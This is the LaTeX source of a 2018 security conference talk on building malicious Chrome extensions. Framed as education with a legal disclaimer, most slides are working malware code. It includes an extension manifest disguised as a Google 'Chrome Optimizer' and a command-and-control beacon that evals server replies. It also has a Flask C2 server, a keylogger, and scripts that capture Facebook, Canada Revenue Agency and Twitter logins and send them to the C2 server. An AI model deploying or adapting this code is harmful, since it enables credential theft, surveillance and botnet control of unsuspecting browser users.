\documentclass[aspectratio=169]{beamer}
\usepackage{tabularx}
\usepackage{graphicx}
\usepackage{eso-pic}

\usepackage{minted}
\usepackage{hyperref}
\usepackage{animate}

\usepackage{tcolorbox}

\makeatletter
\newenvironment{myitemize}{%
   \setlength{\topsep}{0pt}
   \setlength{\partopsep}{0pt}
   \renewcommand*{\@listi}{\leftmargin\leftmargini \parsep\z@ \topsep\z@ \itemsep\z@}
   \let\@listI\@listi
   \itemize
}{\enditemize}
\makeatother

\graphicspath{{img/}}

\usetheme{Warsaw}
\usemintedstyle{monokai}

\setbeamercolor{normal text}{fg=white,bg=black!90}
\setbeamercolor{structure}{fg=white}
\setbeamercolor{alerted text}{fg=red!85!black}
\setbeamercolor{item projected}{use=item,fg=black,bg=item.fg!35}
\setbeamercolor*{palette primary}{use=structure,fg=structure.fg}
\setbeamercolor*{palette secondary}{use=structure,fg=structure.fg!95!black}
\setbeamercolor*{palette tertiary}{use=structure,fg=structure.fg!90!black}
\setbeamercolor*{palette quaternary}{use=structure,fg=structure.fg!95!black,bg=black!80}
\setbeamercolor*{framesubtitle}{fg=white}
\setbeamercolor*{block title}{parent=structure,bg=black!60}
\setbeamercolor*{block body}{fg=black,bg=black!10}
\setbeamercolor*{block title alerted}{parent=alerted text,bg=black!15}
\setbeamercolor*{block title example}{parent=example text,bg=black!15}
\setbeamertemplate{navigation symbols}{}
\setbeamercolor{footercolor}{fg=white,bg=black}

\makeatletter
\defbeamertemplate*{footline}{myfootline}
{
  \leavevmode%
  \hbox{%
  \begin{beamercolorbox}[wd=.333333\paperwidth,ht=2.25ex,dp=1ex,center]{footercolor}%
    \insertshorttitle
  \end{beamercolorbox}%
  \begin{beamercolorbox}[wd=.333333\paperwidth,ht=2.25ex,dp=1ex,center]{footercolor}%
    \insertshortauthor\expandafter\beamer@ifempty\expandafter{\beamer@shortinstitute}{}{~~(\insertshortinstitute)}
  \end{beamercolorbox}%
  \begin{beamercolorbox}[wd=.333333\paperwidth,ht=2.25ex,dp=1ex,right]{footercolor}%
    \insertshortdate{}\hspace*{2em}
    \insertframenumber{} / \inserttotalframenumber\hspace*{2ex} 
  \end{beamercolorbox}}%
  \vskip0pt%
}
\makeatother

\title{The Chrome Crusader}

\institute{GoSecure}
\author{Lilly Chalupowski}
\date{April 24, 2018}

\begin{document}

\setbeamertemplate{footline}{}
\begin{frame}[t]
  \begin{center}
    \begingroup
    \fontsize{20pt}{20pt}\selectfont
    \inserttitle \\
    \endgroup
    \bigskip
      
\includegraphics[scale=0.34]{chrome_vs_firefox} \\
    \bigskip
    \insertauthor \\
    \insertdate
  \end{center}
\end{frame}

\newcommand\AtPagemyUpperLeft[1]{\AtPageLowerLeft{%
\put(\LenToUnit{0.94\paperwidth},\LenToUnit{0.93\paperheight}){#1}}}
\AddToShipoutPictureFG{
  \AtPagemyUpperLeft{{
\includegraphics[width=1cm,keepaspectratio]{gosecure}}}
}%

\setbeamertemplate{footline}[myfootline]

\begin{frame}
  \frametitle{who.is}
  \begin{table}
    \caption{\textit{who.is results}}
    \begin{tabularx}{\textwidth}{|X|X|}
      \hline
      Name & Lilly Chalupowski \\
      \hline
      Status & Employed \\
      \hline
      Creation Date & 1986/11/29 \\
      \hline
      Expiry & A Long Time from Now \\
      \hline
      Registrant Name & GoSecure \\
      \hline
      Administrative contact & Travis Barlow \\
      \hline
      Job & Cyber Intelligence \\
      \hline
    \end{tabularx}
  \end{table}
\end{frame}
\begin{frame}
  \frametitle{Agenda}
  \framesubtitle{What will we cover?}
  \begin{itemize}
  \item Disclaimer
  \item The Manifesto
  \item Chrome Extension Ecosystem
  \item Command and Control
  \item Hooking
  \item Credential Stealing
  \item Security Headers
  \item POC / Demo
  \item Questions
  \end{itemize}
\end{frame}
\begin{frame}
  \frametitle{Skills Needed}
  \begin{itemize}
  \item Javascript
  \item Python
  \item Front End Developers can do this
  \end{itemize}
\end{frame}
\begin{frame}
  \frametitle{Disclaimer}
  \framesubtitle{Stay Alert Stay Safe}
  \begin{tcolorbox}[title=disclaimer.log,colback=gray]
    The tools and techniques covered in this presentation can be dangerous and are\\
    being shown for educational purposes.\\
    \newline
    It is a violation of Federal laws to attempt gaining unauthorized access to information, assets or systems belonging to others, or to exceed authorization on systems for which you have not been granted.\\
    \newline
    Only use these tools with/on systems you own or have written permission from the owner. I (the speaker) do not assume any responsibility and shall not be held liable for any illegal use of these tools.\\
  \end{tcolorbox}
\end{frame}

\begin{frame}
  \addtocounter{framenumber}{-1}
  \frametitle{Making Chrome Great Again!}
  \begin{center}
    
\includegraphics[scale=1]{chrome_pony_good}
  \end{center}
\end{frame}
\begin{frame}
  \addtocounter{framenumber}{-1}
  \frametitle{Making Chrome Great Again!}
  \begin{center}
    
\includegraphics[scale=1]{chrome_pony_evil}
  \end{center}
\end{frame}

\begin{frame}
  \frametitle{Malware Manifesto}
  \begin{columns}
    \column{0.5\textwidth}
    \begingroup
    \fontsize{4pt}{4pt}\selectfont
    \begin{center}
    ==Phrack Inc.== \\
    \smallskip
    Volume One, Issue 7, Phile 3 of 10 \\
    \smallskip
    =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=\\
    The following was written shortly after my arrest...\\
    \smallskip
    ---The Conscience of a Hacker---\\
    \smallskip
    by\\
    \smallskip
    +++The Mentor+++\\
    \smallskip
    Written on January 8, 1986\\
    =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=\\
    \smallskip
    Another one got caught today, it's all over the papers.  "Teenager \\
    Arrested in Computer Crime Scandal", "Hacker Arrested after Bank Tampering"...\\
    \smallskip
    Damn kids.  They're all alike.\\
    \smallskip
    But did you, in your three-piece psychology and 1950's technobrain,\\
    ever take a look behind the eyes of the hacker?  Did you ever wonder what\\
    made him tick, what forces shaped him, what may have molded him?\\
    I am a hacker, enter my world...\\
    Mine is a world that begins with school... I'm smarter than most of\\
    the other kids, this crap they teach us bores me...\\
    Damn underachiever.  They're all alike.\\
    \smallskip
    I'm in junior high or high school.  I've listened to teachers explain\\
    for the fifteenth time how to reduce a fraction.  I understand it.  "No, Ms.\\
    Smith, I didn't show my work.  I did it in my head..."\\
    Damn kid.  Probably copied it.  They're all alike.\\
    \smallskip
    I made a discovery today.  I found a computer.  Wait a second, this is\\
    cool.  It does what I want it to.  If it makes a mistake, it's because I\\
    screwed it up.  Not because it doesn't like me...\\
    Or feels threatened by me...\\
    Or thinks I'm a smart ass...\\
    Or doesn't like teaching and shouldn't be here...\\
    Damn kid.  All he does is play games.  They're all alike.\\
    \end{center}
    \endgroup
    \column{0.5\textwidth}
    \begingroup
    \fontsize{4pt}{4pt}\selectfont
    \begin{center}
    And then it happened... a door opened to a world... rushing through\\
    the phone line like heroin through an addict's veins, an electronic pulse is\\
    sent out, a refuge from the day-to-day incompetencies is sought... a board is\\
    found.\\
    "This is it... this is where I belong..."\\
    I know everyone here... even if I've never met them, never talked to\\
    them, may never hear from them again... I know you all...\\
    Damn kid.  Tying up the phone line again.  They're all alike...\\
    \smallskip
    You bet your ass we're all alike... we've been spoon-fed baby food at\\
    school when we hungered for steak... the bits of meat that you did let slip\\
    through were pre-chewed and tasteless.  We've been dominated by sadists, or\\
    ignored by the apathetic.  The few that had something to teach found us will-\\
    ing pupils, but those few are like drops of water in the desert.\\
    \smallskip
    This is our world now... the world of the electron and the switch, the\\
    beauty of the baud.  We make use of a service already existing without paying\\
    for what could be dirt-cheap if it wasn't run by profiteering gluttons, and\\
    you call us criminals.  We explore... and you call us criminals.  We seek\\
    after knowledge... and you call us criminals.  We exist without skin color,\\
    without nationality, without religious bias... and you call us criminals.\\
    You build atomic bombs, you wage wars, you murder, cheat, and lie to us\\
    and try to make us believe it's for our own good, yet we're the criminals.\\
    \smallskip
    Yes, I am a criminal.  My crime is that of curiosity.  My crime is\\
    that of judging people by what they say and think, not what they look like.\\
    My crime is that of outsmarting you, something that you will never forgive me\\
    \smallskip
    I am a hacker, and this is my manifesto.  You may stop this individual,\\
    but you can't stop us all... after all, we're all alike\\
    \smallskip
    ++The Mentor+++\\
    \end{center}
    \endgroup
  \end{columns}
\end{frame}
\begin{frame}
  \frametitle{Malware Manifesto}
  \framesubtitle{What is a manifest.json?}
  \begin{tcolorbox}[title=From Google's Documentation,colback=gray]
    "Every app needs a manifest formatted file named manifest.json that describes\\
    the app."
  \end{tcolorbox}
\end{frame}
\begin{frame}[fragile]{}
  \frametitle{Malware Manifesto}
  \framesubtitle{All your base are belong to us}
  \begin{center}
    \begin{tcolorbox}[title=manifest.json,colback=black]
    \begin{minipage}{0.5\textwidth}
      \begin{minted}[fontsize=\tiny]{json}
        {
	      "manifest_version": 2,
	      "name": "Chrome Optimizer",
	      "version": "1.0",
	      "author": "Google",
	      "description": "Faster Browser",
	      "content_scripts": [
		    {
			  "matches": [
				"<all_urls>"
			  ],
			  "js": [
				"config.js",
				"lib/cnc.js",
				"utils/hook.js"
			  ]
		    }
	      ],
	      "permissions": [
		    "<all_urls>",
		    "background",
		    "tabs"
	      ]
        }
      \end{minted}
    \end{minipage}
    \end{tcolorbox}
  \end{center}
\end{frame}
\begin{frame}[fragile]{}
  \frametitle{Malware Manifesto}
  \framesubtitle{Hiding the icon}
  \begin{center}
    \begin{minipage}[t][5cm]{0.5\textwidth}
      \begin{tcolorbox}[title=manifest.json,colback=black]
      \begin{minted}[fontsize=\tiny]{json}
        {
	      "manifest_version": 2,
	      "name": "Chrome Optimizer",
	      "version": "1.0",
	      "author": "Google",
	      "description": "Faster Browser",
	      "converted_from_user_script": true,
	      "content_scripts": []
        }
      \end{minted}
      \end{tcolorbox}
      \begin{itemize}
      \item Pros
        \begin{itemize}
          \item Hides the Icon
        \end{itemize}
      \item Cons
        \begin{itemize}
          \item CORS Limitations
        \end{itemize}
      \end{itemize}
    \end{minipage}
  \end{center}
\end{frame}
\begin{frame}
  \frametitle{I know what's on your mind}
  \begin{center}
    
\includegraphics[scale=0.4]{coors_light}
  \end{center}
\end{frame}
\begin{frame}
  \frametitle{The Chrome Extension Ecosystem}
  \framesubtitle{Cross-Origin Resource Sharing (CORS)}
  \begin{center}
    \begin{tcolorbox}[title=MDN Quote,colback=gray]
      "Cross-Origin Resource Sharing (CORS) is a mechanism that uses additional HTTP headers to let a
      user agent gain permission to access selected resources from a server on a different origin (domain)
      than the site currently in use.
      A user agent makes a cross-origin HTTP request when it requests a resource from a different domain,
      protocol, or port than the one from which the current document originated."
    \end{tcolorbox}
  \end{center}
\end{frame}
\begin{frame}
  \frametitle{The Chrome Extension Ecosystem}
  \framesubtitle{Cross-Origin Resource Sharing (CORS)}
  \framesubtitle{Without an Extension}
  \begin{columns}
    \begin{column}{0.5\textwidth}
      
\includegraphics[scale=0.39]{cors}
    \end{column}
    \begin{column}{0.5\textwidth}
      \begin{itemize}
      \item Pros
        \begin{itemize}
          \item Nothing to install
        \end{itemize}
      \item Cons
        \begin{itemize}
          \item Lots of work
        \end{itemize}
      \end{itemize}
    \end{column}
  \end{columns}
\end{frame}
\begin{frame}
  \frametitle{The Chrome Extension Ecosystem}
  \framesubtitle{With an Extension}
  \begin{columns}
    \begin{column}{0.5\textwidth}
      
\includegraphics[scale=0.33]{cors_extension}
    \end{column}
    \begin{column}{0.5\textwidth}
      \begin{itemize}
      \item Pros
        \begin{itemize}
        \item Botnet Infrastructure
        \item More Compromised Data
        \end{itemize}
        \item Cons
          \begin{itemize}
          \item More Programming
          \item Longer time to build
        \end{itemize}
      \end{itemize}
    \end{column}
  \end{columns}
\end{frame}
\begin{frame}
  \frametitle{You are Infect!}
  \begin{center}
    
\includegraphics[scale=0.4]{youareinfect}
  \end{center}
\end{frame}
\begin{frame}[fragile]{}
  \frametitle{Javascript XMLHttpRequest}
  \framesubtitle{A little command here and a little control there...}
  \begin{center}
    \begin{tcolorbox}[title=hook.js,colback=black]
    \begin{minipage}{0.5\textwidth}
      \begin{minted}[fontsize=\tiny]{javascript}
        var config = {                                                                      //CnC server configuration
          server: "127.0.0.1",                                                              //Our test CnC server
          port: 80                                                                          //CnC port
        };
        function cnc(data, callback){                                                       //CnC Handler
	      try{
		    let http = new XMLHttpRequest();
		    http.onreadystatechange = function(){
		      if (this.readyState == 4 && this.status == 200){
				callback(this.responseText);                                //Callback function
				return true;
			  }
			  if (this.readyState == 4 && this.status != 200){
				return false;                                               //Try to fail silently
			  }
		    };
		    http.open('POST', 'http://' + config.server + ':' + config.port, true); //Connect to CnC server
		    http.setRequestHeader('Content-Type', 'application/json');
		    http.send(JSON.stringify(data));                                        //Send the data
		    return true;
	      } catch(error){
		    return false;
	      }
        }
      \end{minted}
    \end{minipage}
    \end{tcolorbox}
  \end{center}
\end{frame}
\begin{frame}[fragile]{}
  \frametitle{Javascript XMLHttpRequest}
  \framesubtitle{Getting them hooked}
  \begin{center}
    \begin{tcolorbox}[title=hook.js,colback=black]
    \begin{minipage}{0.5\textwidth}
      \begin{minted}[fontsize=\tiny]{javascript}
        function sleep(ms) {
	      try {
		    return new Promise(resolve => setTimeout(resolve, ms));
	      } catch(error){
		    return false;
	      }
        }

        async function hook(){                   //Async hook to run in background in loop
          try {
            let data = {};                       //Any data you like here
            for (;;){
              cnc(data, function(responseText){
                eval(responseText);              //Execute the command sent back by CnC server
                return true;
              });
              await sleep(10000);                //Sleep for 10s
            }
          } catch(error){
            return false;
          }
        }
        
        hook();
      \end{minted}
    \end{minipage}
    \end{tcolorbox}
  \end{center}
\end{frame}
\begin{frame}[fragile]{}
  \frametitle{Javascript XMLHttpRequest}
  \framesubtitle{The Manifesto}
  \begin{center}
    \begin{tcolorbox}[title=manifest.json,colback=black]
    \begin{minipage}{0.5\textwidth}
      \begin{minted}[fontsize=\tiny]{json}
        {
          "matches":[
            "<all_urls>"
          ],
          "js": [
            "hook.js"
          ]
        }
      \end{minted}
    \end{minipage}
    \end{tcolorbox}
  \end{center}
\end{frame}
\begin{frame}
  \frametitle{We have them hooked!}
  \begin{center}
    
\includegraphics[scale=0.3]{hooked}
  \end{center}
\end{frame}
\begin{frame}[fragile]{}
  \frametitle{Python CnC Server}
  \begin{center}
    \begin{tcolorbox}[title=server.py,colback=black]
    \begin{minipage}{0.5\textwidth}
      \begin{minted}[fontsize=\tiny]{python}
        #!/usr/bin/env python
        
        import sys
        import json
        from flask import Flask
        from flask import request

        @app.route("/", methods=["POST"])
        def cnc_listener():
            try:
                data = request.json
                print(json.dumps(data, indent=4))
                if 'bot' in data:
                    return "console.log('1337 botnet dude')"
                return json.dumps(
                    data,
                    indent=4
                ), 200, {'Content-Type': 'application/json'}
            except Exception as e:
                return json.dumps(
                    {
                      'error': 'invalid request'
                    },
                    indent=4
                ), 500, {'Content-Type': 'application/json'}
      \end{minted}
    \end{minipage}
    \end{tcolorbox}
  \end{center}
\end{frame}
\begin{frame}
  \frametitle{Classic Malware Features}
  \framesubtitle{Where are they?}
  \begin{center}
    
\includegraphics[scale=0.3]{dwight}
  \end{center}
\end{frame}
\begin{frame}[fragile]{}
  \frametitle{Javascript Keylogger}
  \framesubtitle{Stealing your Facebook conversations}
  \begin{center}
    \begin{tcolorbox}[title=keylogger.js,colback=black]
    \begin{minipage}{0.5\textwidth}
      \begin{minted}[fontsize=\tiny]{javascript}
        document.onkeydown = function(e){  //On keydown event
          try {
            let data = {                   //Capture the key pressed
              "keylog":{
                timestamp: Date.now(),
                key: e.key,
                uri: window.location.href
              }
            }
            cnc(data, function(data){      //Send the data to CnC server
              return true;
            });
            return true;
          } catch(error){
            return false;                  //Try to fail silently
          }
        };
        
      \end{minted}
    \end{minipage}
    \end{tcolorbox}
  \end{center}
\end{frame}
\begin{frame}[fragile]{}
  \frametitle{Javascript Keylogger}
  \framesubtitle{The Manifesto}
  \begin{center}
    \begin{tcolorbox}[title=manifest.json,colback=black]
    \begin{minipage}{0.5\textwidth}
      \begin{minted}[fontsize=\tiny]{json}
        {
          "matches":[
            "<all_urls>"
          ],
          "js": [
            "keylogger.js"
          ]
        }
      \end{minted}
    \end{minipage}
    \end{tcolorbox}
  \end{center}
\end{frame}
\begin{frame}[fragile]{}
  \frametitle{Stealing Your Facebook Credentials}
  \begin{center}
    \begin{tcolorbox}[title=facebook.js,colback=black]
    \begin{minipage}{0.5\textwidth}
      \begin{minted}[fontsize=\tiny]{javascript}
        document.getElementById('loginbutton').getElementsByTagName('input')[0].addEventListener('click',function(){
		  try {
			let email = document.getElementById('email'); //Get Email Address Element
			let pass = document.getElementById('pass');   //Get Password Element
			if (email.value != '' && pass.value != ''){   //Check if data was entered in login fields
                          let data = {                                //Capture timestamp, site, user and pass
				"auth": {
				  timestamp: Date.now(),
				  site: "facebook.com",
				  user: email.value,
				  pass: pass.value
				}
			  };
			  cnc(data, function(data){                  //Send the data to to CnC server
				return true;
			  });
                          return true;
                       }
	               return false;
		  } catch(error){
			return false;                                //Try to fail silently
		  }
	    });
      \end{minted}
    \end{minipage}
    \end{tcolorbox}
  \end{center}
\end{frame}


\begin{frame}[fragile]{}
  \frametitle{Stealing Your CRA Credentials}
  \begin{center}
    \begin{tcolorbox}[title=cra.js,colback=black]
    \begin{minipage}{0.5\textwidth}
      \begin{minted}[fontsize=\tiny]{javascript}
        function get_user_pass(){
	      try {
		    data = {
			  "auth": {
				site: "cms-sgj.cra-arc.gc.ca",
				user: document.getElementById('userid').value;,
				pass: document.getElementById('password').value;,
				timestamp: Date.now()
			  }
		    };
		    return data;
	      } catch(error){
		    return false;
	      }
        }

        document.getElementById('submitButton').addEventListener('click', function(){
		  try {
			post_cnc(get_user_pass(), function(data){
			  return true;
			});
		  } catch(error){
			return false;
		  }
	    });
      \end{minted}
    \end{minipage}
    \end{tcolorbox}
  \end{center}
\end{frame}

\begin{frame}[fragile]{}
  \frametitle{Stealing Your Twitter Credentials}
  \begin{center}
    \begin{tcolorbox}[title=twitter.js,colback=black]
    \begin{minipage}{0.5\textwidth}
      \begin{minted}[fontsize=\tiny]{javascript}
        function get_user_pass(){
	      try {
            let username = document.getElementsByClassName('js-username-field email-input js-initial-focus')[0].value;
            let password = document.getElementsByClassName('js-password-field')[0].value;
		    let data = {
			  "auth": {
				timestamp: Date.now(),
				user: username,
				pass: password,
				site: "twitter.com"
			  }
		    };
		    return data;
	      } catch(error){
		    return false;
	      }
        }
        let class_twitter = 'submit EdgeButton EdgeButton--primary EdgeButtom--medium';
        document.getElementsByClassName(class_twitter)[0].addEventListener('click', function(){
          try {
            post_cnc(get_user_pass(), function(data){return true;});
            return true;
          } catch(error){
            return false;
          }});
      \end{minted}
    \end{minipage}
    \end{tcolorbox}
  \end{center}
\end{frame}

\begin{frame}
  \frametitle{BUT WHY!?}
  \begin{center}
    
\includegraphics[scale=0.25]{butwhy}
  \end{center}
\end{frame}
